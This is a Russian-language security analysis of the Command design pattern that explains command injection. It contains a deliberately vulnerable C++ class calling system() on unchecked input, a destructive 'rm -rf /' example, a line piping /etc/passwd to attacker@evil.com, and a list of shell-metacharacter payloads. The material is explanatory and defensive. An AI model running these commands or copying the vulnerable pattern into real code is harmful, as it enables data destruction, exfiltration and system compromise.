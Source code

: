 # Анализ безопасности паттерна Command

## Обзор

Паттерн Command инкапсулирует запросы как объекты, но при неправильной реализации становится источником критических уязвимостей. Это один из наиболее опасных паттернов с точки зрения безопасности из-за потенциала для command injection, privilege escalation и remote code execution.

## Критические уязвимости

### 1. Command Injection (CWE-77/78)

**Описание**: Прямое выполнение пользовательского ввода как системной команды без валидации.

**Механизм атаки**:
```cpp
// УЯЗВИМЫЙ КОД
class ShellCommand {
    std::string command_;
public:
    void execute() {
        system(command_.c_str());  // COMMAND INJECTION!
    }
};

// Атака через метасимволы shell
ShellCommand cmd("ls; rm -rf /");  // Выполнит ОБЕ команды!
ShellCommand cmd("cat /etc/passwd | mail attacker@evil.com");
ShellCommand cmd("echo `whoami`");  // Command substitution
```

**Payload примеры**:
```bash
# Разделители команд
input; malicious_command
input && malicious_command
input || malicious_command
input | malicious_command

# Command substitution
$(malicious_command)
`malicious_command`

# Redirect
input > /dev/null; malicious_command
```

**Последствия**:
- **Remote Code Execution** - полный контроль над системой
- **Data Exfiltration** - кража данных
- **Privilege Escalation** - получение root прав
- **Persistence** - установка backdoors
